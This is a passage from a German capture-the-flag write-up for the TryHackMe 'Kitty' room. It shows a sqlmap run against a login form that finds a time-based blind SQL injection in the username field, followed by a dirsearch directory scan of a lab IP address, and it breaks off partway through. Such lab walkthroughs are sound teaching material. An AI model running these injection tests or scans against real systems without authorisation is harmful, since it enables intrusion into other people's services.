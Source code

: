 schauen wir uns mal die Webseite an


![Bild](/assets/Bilder/THM_Kitty/Pasted%20image%2020240209144358.png){: width="700" height="400" }

Wir sehen ein Anmeldefenster, lassen wir mal sqlmap laufen und schauen uns nebenher die Webseite an

```
┌──(bumble㉿bumble)-[/mnt/backup/THM/kitty]
└─$ sqlmap -r req.txt --level=5 --risk=3 --batch
[14:49:44] [INFO] POST parameter 'username' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[14:49:44] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:49:44] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:50:14] [WARNING] there is a possibility that the target (or WAF/IPS) is dropping 'suspicious' requests
[14:50:14] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[14:50:14] [WARNING] most likely web server instance hasn't recovered yet from previous timed based payload. If the problem persists please wait for a few minutes and rerun without flag 'T' in option '--technique' (e.g. '--flush-session --technique=BEUS') or try to lower the value of option '--time-sec' (e.g. '--time-sec=2')   
```

Lassen wir mal dirsearch laufen

```
┌──(bumble㉿bumble)-[/mnt/backup/THM/kitty]
└─$ dirsearch -u http://10.10.80.136/      
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /mnt/backup/THM/kitty/reports/http_10.10.80.136/__24-02-09_14-49-04.txt

Target: http://10.10.80.136/

[14:49:04] Starting: 
[14:49:09] 403 -  277B  - /.ht_wsr.txt                                      
[14:49:09] 403 -  277B  - /.htaccess.bak1                                   
```